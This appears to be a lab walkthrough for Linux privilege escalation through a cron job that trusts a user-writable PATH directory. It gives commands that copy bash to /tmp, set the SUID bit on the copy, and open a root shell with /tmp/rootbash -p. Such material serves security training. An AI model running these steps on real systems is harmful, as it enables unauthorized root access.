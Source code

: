 **View the contents of the system-wide crontab:**
```python
cat /etc/crontab
```

**Note that the PATH variable starts with "/home/user" which is our user's home directory.**
![[linux_privesc15.png]]

**Create a file called "overwrite.sh" in your home directory with the following contents:**
```python
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```

**Make sure that the file is executable:**
```python
chmod +x /home/user/overwrite.sh
```

**Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:**
```python
/tmp/rootbash -p
```

